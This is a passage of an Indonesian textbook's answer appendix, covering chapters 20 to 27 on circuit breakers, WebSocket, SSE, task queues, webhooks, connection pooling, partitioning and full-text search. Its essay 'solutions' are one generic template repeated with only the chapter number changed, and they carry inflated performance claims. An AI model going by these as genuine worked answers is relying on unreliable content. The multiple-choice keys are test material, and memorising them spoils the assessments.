   - **Pendekatan Rekayasa**: Dalam konteks Bab 20, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 20

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Pola Circuit Breaker mencegah kegagalan satu layanan mikro menjalar menjadi kegagalan sistemik (cascading failure). |
| **2** | **B** | Saat status Terbuka (Open), sirkuit langsung menolak permintaan dan mengeksekusi fungsi fallback cepat. |
| **3** | **A** | Sirkuit bertransisi ke Setengah Terbuka setelah masa jeda tidur (sleep window) selesai untuk menguji pemulihan. |
| **4** | **A** | Graceful Degradation memastikan sistem tetap menyajikan konten alternatif yang bermanfaat saat fitur utama gagal. |
| **5** | **A** | Faktor Jitter menyebarkan waktu percobaan ulang secara acak guna menghindari badai lonjakan trafik (thundering herd). |
| **6** | **A** | Pola Bulkhead mempartisi alokasi sumber daya antarlayanan agar kegagalan satu modul tidak menguras modul lain. |
| **7** | **A** | Jika permintaan uji coba pada status Setengah Terbuka gagal, sirkuit langsung kembali ke status Terbuka. |
| **8** | **A** | Parameter timeout_eksekusi_ms membatasi durasi toleransi pemanggilan layanan sebelum dinyatakan gagal. |
| **9** | **B** | Sirkuit diputus jika rasio kegagalan melampaui nilai ambang konfigurasi ambang_kegagalan_persen. |
| **10** | **A** | Pemanggilan dependensi tanpa timeout dapat menyandera thread pekerja hingga seluruh sumber daya server habis. |

---

## BAGIAN D.21: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 21

### Pembahasan Latihan Esai Bab 21

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 21, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 21

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Protokol WebSocket diatur secara resmi dalam spesifikasi IETF RFC 6455. |
| **2** | **C** | Kode status HTTP 101 Switching Protocols menandakan persetujuan peningkatan protokol ke WebSocket. |
| **3** | **A** | WebSocket tidak menyertakan tajuk-tajuk teks HTTP pada setiap frame setelah koneksi terhubung, menghemat byte. |
| **4** | **B** | Model Pub/Sub memungkinkan klien hanya menerima pesan dari topik artikel yang mereka ikuti secara selektif. |
| **5** | **A** | Frame kontrol Ping dan respons Pong digunakan untuk mendeteksi pemutusan koneksi sepihak secara berkala. |
| **6** | **A** | WidyaWeb memanfaatkan multiplexing I/O event loop non-blocking (epoll/kqueue) untuk menangani ratusan ribu socket. |
| **7** | **A** | Data terstruktur JSON pada protokol WebSocket ditransmisikan menggunakan Text Frame berkode UTF-8. |
| **8** | **A** | Pelepasan langganan saat pemutusan koneksi mencegah kebocoran memori pada registry topik broker. |
| **9** | **A** | Latensi penyiaran pesan broker WidyaWeb berada pada kisaran 1.2 hingga 5 milidetik. |
| **10** | **A** | Sanitasi teks komentar wajib dilakukan sebelum disiarkan guna mencegah serangan Stored XSS pada peramban penerima. |

---

## BAGIAN D.22: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 22

### Pembahasan Latihan Esai Bab 22

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 22, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 22

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Aliran Server-Sent Events (SSE) ditandai dengan tajuk Content-Type: text/event-stream. |
| **2** | **A** | SSE sangat ideal untuk breaking news karena bersifat satu arah, hemat koneksi HTTP/2, dan memiliki auto-reconnect. |
| **3** | **B** | Peramban web mendengarkan aliran data SSE menggunakan objek antarmuka standar EventSource. |
| **4** | **A** | Tajuk Last-Event-ID memberi tahu peladen ID pesan terakhir yang diterima klien agar pesan terlewat dapat dikirim ulang. |
| **5** | **B** | Baris teks retry: menentukan durasi jeda waktu sebelum peramban mencoba menyambung ulang otomatis. |
| **6** | **A** | Tajuk X-Accel-Buffering: no mencegah proksi perantara menahan buffer data streaming. |
| **7** | **B** | Tajuk Cache-Control: no-cache, no-transform mencegah respons streaming disimpan secara statis oleh proksi. |
| **8** | **B** | Dua karakter baris baru berurutan (\n\n) menandai batas akhir satu blok peristiwa pada spesifikasi SSE. |
| **9** | **A** | Jeda waktu sambung ulang bawaan pada implementasi di atas diatur sebesar 3000 milidetik (3 detik). |
| **10** | **A** | SSE beroperasi secara transparan di atas koneksi HTTPS aman (HTTP/1.1 TLS, HTTP/2, dan HTTP/3). |

---

## BAGIAN D.23: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 23

### Pembahasan Latihan Esai Bab 23

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 23, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 23

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Tugas lambat didelegasikan ke latar belakang agar respons HTTP kembali instan dan thread web tidak tersandera. |
| **2** | **A** | Dead-Letter Queue (DLQ) menampung tugas-tugas yang telah gagal berkali-kali untuk dianalisis tim SRE secara terisolasi. |
| **3** | **A** | Sistem antrean tugas beroperasi menggunakan pola arsitektur Producer-Consumer. |
| **4** | **A** | Two-Phase Acknowledgment memastikan tugas hanya dihapus dari antrean setelah pekerja mengonfirmasi keberhasilan (ACK). |
| **5** | **A** | Parameter tunda_detik(5) memberi jeda waktu agar aset media selesai terdistribusi di CDN sebelum email disebar. |
| **6** | **B** | Pengambilan tugas secara atomik dilakukan menggunakan perintah BRPOP atau SELECT ... FOR UPDATE SKIP LOCKED. |
| **7** | **A** | Poison Pill adalah pesan tugas cacat yang selalu memicu crash pekerja jika tidak dibatasi jumlah percobaannya. |
| **8** | **B** | Jumlah maksimal percobaan ulang tugas pemrosesan media pada implementasi di atas dibatasi 3 kali. |
| **9** | **B** | Peningkatan beban tugas diatasi dengan menambah jumlah instans proses pekerja secara horizontal. |
| **10** | **A** | Prioritas tugas memastikan pekerjaan penting (seperti optimasi gambar artikel) dieksekusi sebelum tugas santai. |

---

## BAGIAN D.24: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 24

### Pembahasan Latihan Esai Bab 24

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 24, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 24

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Tanda tangan otentikasi muatan webhook dihitung menggunakan algoritma kriptografis HMAC-SHA256. |
| **2** | **A** | Mitra memverifikasi webhook dengan menghitung ulang HMAC-SHA256 menggunakan shared secret dan mencocokkannya. |
| **3** | **A** | Format tanggal standar pada spesifikasi umpan sindikasi RSS 2.0 adalah RFC 822. |
| **4** | **A** | Penyertaan stempel waktu di dalam perhitungan HMAC mencegah serangan pengulangan (Replay Attack). |
| **5** | **A** | Sindikasi RSS ditarik oleh klien (Pull), sedangkan Webhook didorong langsung oleh peladen ke mitra (Push). |
| **6** | **A** | JSON Feed v1.1 adalah format sindikasi umpan berita modern berbasis notasi dokumen JSON murni. |
| **7** | **A** | Batas waktu 5000ms pada pengiriman webhook mencegah thread tersandera jika peladen mitra mengalami kelambatan. |
| **8** | **A** | Elemen <guid> memberikan pengenal unik global pada setiap artikel untuk mencegah duplikasi di aplikasi agregator. |
| **9** | **A** | Status HTTP seri 2xx (seperti 200 OK atau 204 No Content) menandakan keberhasilan penerimaan paket webhook. |
| **10** | **A** | Pengiriman webhook ke banyak mitra melalui antrean tugas menjamin publikasi berita tidak terhambat oleh peladen luar. |

---

## BAGIAN D.25: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 25

### Pembahasan Latihan Esai Bab 25

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 25, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 25

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | WidyaBase berkomunikasi secara native menggunakan protokol kabel PostgreSQL v3.0 (Pgwire). |
| **2** | **A** | Connection Pooling menghemat latensi jabat tangan TCP dan beban CPU autentikasi dengan mendaur ulang soket aktif. |
| **3** | **B** | Autentikasi SCRAM-SHA-256 melindungi transmisi kata sandi dari penyadapan jaringan secara kriptografis. |
| **4** | **A** | Tahap Parse pada query extended pgwire bertugas mengompilasi rencana kueri SQL di sisi server. |
| **5** | **A** | Ukuran pool yang terlalu besar memicu context switching berlebih dan kehabisan memori RAM pada peladen basis data. |
| **6** | **A** | Kueri berparameter mengisolasi nilai data dari instruksi SQL, secara mutlak menangkal celah injeksi SQL. |
| **7** | **A** | Parameter timeout_pinjam membatasi waktu tunggu thread aplikasi untuk memperoleh koneksi yang menganggur. |
| **8** | **A** | Koneksi yang melampaui masa hidup maksimal ditutup saat dalam status menganggur dan digantikan soket segar. |
| **9** | **A** | Opsi failover otomatis mengalihkan soket koneksi secara transparan ke simpul replika jika simpul primer gagal. |
| **10** | **A** | Menonaktifkan uji koneksi saat pinjam memangkas latensi kueri ping tambahan (SELECT 1) pada setiap kueri. |

---

## BAGIAN D.26: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 26

### Pembahasan Latihan Esai Bab 26

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 26, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 26

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Kunci primer tabel berpartisi wajib menyertakan kolom partisi untuk menjamin keunikan lokal tanpa indeks global. |
| **2** | **A** | Partition Pruning memungkinkan perencana kueri mengabaikan partisi yang berada di luar rentang kondisi WHERE. |
| **3** | **A** | Indeks majemuk terfilter (idx_artikel_kategori_terbit) mempercepat pengambilan daftar berita terbit per kategori. |
| **4** | **A** | Klausa ON DELETE CASCADE menghapus seluruh komentar balasan bersarang jika komentar induknya dihapus. |
| **5** | **A** | Tipe UUID dapat dibangkitkan secara independen di sisi klien/aplikasi tanpa tabrakan id lintas klaster. |
| **6** | **A** | Kolom parent_id merujuk kembali ke id pada tabel komentar yang sama untuk memodelkan komentar bersarang. |
| **7** | **A** | Indeks parsial hanya mengindeks artikel yang diterbitkan, menghemat ruang disk dan memori RAM buffer cache. |
| **8** | **A** | Partisi kuartal Q2 2026 menampung artikel dari 1 April 2026 hingga sebelum 1 Juli 2026. |
| **9** | **A** | Penghapusan arsip usang pada tabel berpartisi dapat dilakukan instan via DROP TABLE partisi tanpa beban kueri DELETE. |
| **10** | **A** | Normalisasi 3NF mencegah redundansi data dan anomali saat penyisipan, pembaruan, atau penghapusan. |

---

## BAGIAN D.27: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 27

### Pembahasan Latihan Esai Bab 27

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 27, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 27

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Best Matching 25 (BM25) adalah algoritma peringkat probabilistik standar untuk relevansi dokumen mesin pencari. |
| **2** | **A** | Stemmer mereduksi berbagai bentuk kata berimbuhan ke kata dasarnya, meningkatkan daya temu (recall) pencarian. |
| **3** | **A** | Kueri LIKE '%kata%' memaksa pemindaian tabel menyeluruh (Full Table Scan) yang sangat lambat pada data besar. |
| **4** | **A** | Inverted Index (Indeks Terbalik / GIN) memetakan kata kunci ke daftar dokumen yang memuat kata tersebut. |
